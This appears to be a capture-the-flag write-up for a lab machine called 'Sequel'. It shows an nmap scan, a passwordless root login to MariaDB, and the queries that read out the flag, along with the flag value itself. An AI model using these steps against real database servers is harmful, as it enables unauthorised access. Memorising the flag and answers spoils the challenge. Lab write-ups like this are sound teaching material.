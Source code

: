 # Sequel

## Task 1: What does the acronym SQL stand for?

Structured Query Language

## Task 2: During our scan, which port running mysql do we find?

answer: 3306

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -p 3306 10.129.24.202     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 13:27 EDT
Nmap scan report for 10.129.24.202
Host is up (0.25s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, FoundRows, SupportsTransactions, SupportsLoadDataLocal, SupportsCompression, ODBCClient, IgnoreSigpipes, InteractiveClient, ConnectWithDatabase, LongColumnFlag, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: (&(2bxTy&M4X@vS|68T}
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 51.83 seconds

```

## Task 3: What community-developed MySQL version is the target running?

Mariadb

## Task 4: What switch do we need to use in order to specify a login username for the MySQL service?

-u

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ mysql --help
...
  --tee=name          Append everything into outfile. See interactive help (\h)
                      also. Does not work in batch mode. Disable with
                      --disable-tee. This option is disabled by default.
  -u, --user=name     User for login if not current user.
  -U, --safe-updates  Only allow UPDATE and DELETE that uses keys.
  -U, --i-am-a-dummy  Synonym for option --safe-updates, -U.
...
```

## Task 5: Which username allows us to log into MariaDB without providing a password?

answer: root

another misconfiguration, no password, try for importance username:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ mysql -h 10.129.12.167 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 36
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

## Task 6: What symbol can we use to specify within the query that we want to display everything inside a table?

answer: `*`

```sql
SELECT * FROM ...;
```

## Task 7: What symbol do we need to end each query with?

answer: `;`

```sql
SELECT * FROM ...;
```

## Task 8: Submit root flag

7b4bec00d1a39e3dd4e021ec3d915da8

```sql
MariaDB [(none)]> SHOW DATABASES;   
+--------------------+              
| Database           |              
+--------------------+   
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.249 sec)

MariaDB [(none)]> use htb
;Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A


Database changed

MariaDB [htb]> SHOW TABLES;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.248 sec)

MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.259 sec)

```

